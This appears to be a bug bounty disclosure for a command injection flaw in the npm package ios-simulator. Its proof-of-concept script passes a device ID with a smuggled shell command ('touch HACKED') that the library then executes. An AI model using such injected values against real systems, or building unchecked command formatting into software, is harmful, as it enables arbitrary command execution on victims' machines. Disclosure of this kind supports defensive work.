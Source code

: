 The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js

var ios = require('ios-simulator');

ios.prototype.setDeviceId('test"; touch HACKED; #');

ios.prototype.install();
```
2. Check there aren't files called `HACKED`

3. Execute the following commands in another terminal:

```bash

npm i ios-simulator # Install affected module

node poc.js #  Run the PoC

```
4. Recheck the files: now `HACKED` has been created
## References:
 - [GitHub Issue](https://github.com/macacajs/ios-simulator/issues/15)
 - [Issue Permalink](https://github.com/macacajs/ios-simulator/blob/master/lib/ios-simulator.js#L50)